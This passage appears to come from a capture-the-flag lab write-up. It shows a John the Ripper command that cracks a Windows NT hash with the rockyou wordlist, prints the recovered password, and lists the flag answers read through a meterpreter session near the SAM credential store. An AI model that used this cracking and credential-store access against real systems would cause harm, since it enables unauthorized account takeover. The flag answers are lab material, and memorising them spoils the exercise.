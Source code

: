 #### John Via Commandline

1. We want to save the **jon** user's hash to a file to crack. Here, we named it _jon.hash_.

   ```bash
   john jon.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
   Using default input encoding: UTF-8
   Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
   Warning: no OpenMP support for this hash type, consider --fork=2
   Press 'q' or Ctrl-C to abort, almost any other key for status
   alqfna22         (Jon)
   1g 0:00:00:07 DONE (2021-05-12 19:47) 0.1253g/s 1278Kp/s 1278Kc/s 1278KC/s alr1979..alpus
   Use the "--show --format=NT" options to display all of the cracked passwords reliably
   Session completed.
   ```

## Flags

- Lets go back to our meterpreter session and have a look around.

1. Flag1? This flag can be found at the system root.

   ```bash
   c: type flag1.txt
   flag{access_the_machine}
   ```

1. Flag2? This flag can be found at the location where passwords are stored within Windows.

   - This is where the SAM file lives. Where all of the passwords are stored in the system.

   ```bash
   Directory of C:\Windows\System32\config

   05/12/2021  12:20 PM    <DIR>          .
   05/12/2021  12:20 PM    <DIR>          ..
   12/12/2018  06:00 PM            28,672 BCD-Template
   05/12/2021  12:29 PM        18,087,936 COMPONENTS
   05/12/2021  12:49 PM           262,144 DEFAULT
   03/17/2019  02:32 PM                34 flag2.txt
   07/13/2009  09:34 PM    <DIR>          Journal
   05/12/2021  12:49 PM    <DIR>          RegBack
   03/17/2019  03:05 PM           262,144 SAM
   05/12/2021  12:29 PM           262,144 SECURITY
   05/12/2021  01:03 PM        40,632,320 SOFTWARE
   05/12/2021  01:52 PM        12,582,912 SYSTEM
   11/20/2010  09:41 PM    <DIR>          systemprofile
   12/12/2018  06:03 PM    <DIR>          TxR
               8 File(s)     72,118,306 bytes
               6 Dir(s)  20,454,395,904 bytes free

   C:\Windows\System32\config>type flag2.txt
   type flag2.txt
   flag{sam_database_elevated_access}
   ```
